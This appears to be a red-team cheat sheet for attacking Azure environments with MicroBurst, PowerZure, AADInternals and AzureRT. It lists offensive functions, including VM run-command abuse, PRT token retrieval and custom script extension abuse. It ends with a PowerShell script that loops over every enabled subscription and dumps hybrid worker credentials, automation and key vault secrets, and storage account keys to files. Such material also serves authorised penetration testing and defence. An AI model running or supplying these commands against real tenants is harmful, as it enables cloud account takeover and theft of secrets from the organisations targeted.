 ## Microburst
---------------
- Invoke-AzVMBulkCMD (Az function)
- Get-AzureVMExtensionSettings.ps1 (misc function)
- Invoke-AzVMCommandREST (Rest function)
	- needs mgmt token
	
## PowerZure
---------------
- Set-AzureSubscription
- Get-AzureUser -Username
- Show-AzureCurrentUser
- Invoke-AzureRunCommand

## AADInternals 
### Note for all IntRecon
- Get-AADIntAccessTokenForAzureCoreManagement -SaveToCache
- InvokeAADIntReconAsInsider
- InvokeAADIntReconAsGuest

```
$results = Invoke-AADIntReconAsInsider
$resultsGuest = InvokeAADIntReconAsGuest
```

## AzureRT
-------------------
- Get-ARTWhoami
- Get-ArtAccessTokenAzCli / Get-ARTAccessTokenAz
- Get-ARTDangerousPermissions
- Get-ARTResource
- Get-ARTRoleAssignment
- Get-ARTADScopedRoleAssignment
- Get-ARTADDynamicGroups
- Get-ARTAzVMPublicIP
- Get-ARTAzVMUserDataFromInside
- Invoke-ARTRunCommand (virtualMachines/runCommand abuse)
- Invoke-ARTCustomScriptExtension
- Get-ARTTenantID
- Get-ARTPRTToken
- Get-ARTSubscriptionID
- Invoke-ARTGETRequest

Function
```
Install-Module Az -Force -Confirm -AllowClobber -Scope CurrentUser
Install-Module AzureAD -Force -Confirm -AllowClobber -Scope CurrentUser
Install-Module Microsoft.Graph -Force -Confirm -AllowClobber -Scope CurrentUser 
Install-Module MSOnline -Force -Confirm -AllowClobber -Scope CurrentUser        
Install-Module AzureADPreview -Force -Confirm -AllowClobber -Scope CurrentUser  
Install-Module AADInternals -Force -Confirm -AllowClobber -Scope CurrentUser    

# Import All The Modules
Import-Module Az
Import-Module AzureAD
Import-Module .\MicroBurst-master\MicroBurst.psm1
Import-Module .\AzureRT-master\AzureRT.ps1
Import-Module AADInternals

$enabledSubs = Get-AzSubscription  |  Where-Object{$_.State -eq "Enabled"} | select Id
foreach ($SubName in $enabledSubs) {    
    $IDOut = $SubName.id
    echo $SubName.Name >> Subscriptions.txt
    Set-AzContext -Subscription "$IDOut"
    Invoke-AzHybridWorkerExtraction -Subscription $IDOut | Out-File "$IDOut_Hybrid.txt"
    Get-AzKeyVaultsAutomation -Subscription $IDOut | Out-File "$IDOut_AutomationAcc.txt"
    Get-AzDomainInfo -Subscription $IDOut -Users N -Groups N | Out-File "$IDOut_DomainInfoMB.txt"
    Get-ARTWhoami -Verbose | Out-File "$IDOut_ARTWHOAMI.txt"
    Get-ARTAccess -SubscriptionId $IDOut | Out-File "$IDOut_ARTAccess.txt"
    Get-ARTApplication | Out-File "$IDOut_ARTApplication.txt"
    Get-ARTStorageAccountKeys -Verbose | Out-File "$IDOut_ARTStorageAccountKeys.txt"
}


```
